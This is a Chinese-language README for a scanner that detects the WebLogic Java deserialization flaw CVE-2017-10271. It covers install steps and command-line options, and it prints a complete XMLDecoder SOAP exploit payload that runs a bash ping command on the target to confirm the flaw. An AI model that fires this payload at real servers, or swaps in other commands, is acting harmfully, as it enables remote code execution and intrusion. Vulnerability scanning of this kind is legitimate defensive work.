 # java反序列化漏洞检测

针对类似CVE-2017-10271漏洞的一个java反序列化漏洞扫描器，此项目中只有一个poc，其他暂时未做整理。

## 安装

1. 安装nmap

   ​	https://nmap.org/download.html 根据操作系统的不同，下载不同的版本安装。

2. 安装第三方包

   `pip install -r requirements.txt`

3. 扫描

   修改poc，将ping命令中的ip地址改为自己的ip地址

   修改第25行sniff代码

   ```
   sniff(filter='icmp and yourIP',prn=packet_callback)
   ```

   `java_scan.py -i IP地址 [options]
   java_scan.py -h 获得帮助`

## 使用

#### 1.poc

> 使用前务必修改poc，将ping命令中的ip地址改为自己的ip地址

poc为两个json格式的文件分别适用于windows和linux（目前并没有加入指定poc路径的功能，后续版本中将加入该功能）请务必在程序目录使用poc.json和poc_win.json命名poc。

关于poc的格式（linux版，windows版类似）

```json
{
  "url":"wls-wsat/CoordinatorPortType",
  "header": "Content-Type:text/xml",
  "data": [
    "<soapenv:Envelope xmlns:soapenv='http://schemas.xmlsoap.org/soap/envelope/'>",
        "<soapenv:Header>",
            "<work:WorkContext xmlns:work='http://bea.com/2004/06/soap/workarea/'>",
               "<java version='1.8.0_131' class='java.beans.XMLDecoder'>",
                    "<void class='java.lang.ProcessBuilder'>",
                        "<array class='java.lang.String' length='3'>",
                            "<void index='0'>",
                                "<string>/bin/bash</string>",
                            "</void>",
                            "<void index='1'>",
                                "<string>-c</string>",
                            "</void>",
                            "<void index='2'>",
                                "<string>ping 10.60.18.5 -c 2</string>",
                            "</void>",
                        "</array>",
                    "<void method='start'/></void>",
                "</java>",
            "</work:WorkContext>",
        "</soapenv:Header>",
        "<soapenv:Body/>",
    "</soapenv:Envelope>"
  ]
}
```

url指定漏洞利用的目录，header指定post包中新加入的header内容，data是要发送的序列化的内容。

**注意此poc要让漏洞主机返回2个ping包，程序检测到ICMP包时才能确定漏洞存在。**

#### 2.使用nmap对局域网进行扫描

程序默认扫描是调用的nmap对局域网进行扫描

```
java_scan.py -i 192.168.0.1
```

这样扫描是对192.168.0.1的主机的7001端口进行扫描

#### 3.指定ip和端口

指定单个ip和端口

`java_scan.py -i 192.168.0.1 -p 7001`

指定多个ip和多个端口

`java_scan.py -i 192.168.0.1,2,55 -p 7001,8001,9001`

指定ip范围和端口范围

`java_scan.py -i 192.168.0.1-255 -p 7000-8000` 

#### 4.快速的端口开放探测

使用-f参数，将调用socket对端口进行快速探测

`java_scan.py -i 192.168.0.1-255 -p 7001 -f`

指定快速端口探测的线程数

`java_scan.py -i 192.168.0.1-255 -p 7001 -f -t 100`

#### 5.效果

![effect](https://github.com/ETOCheney/JavaDeserialization/blob/master/images/final.png)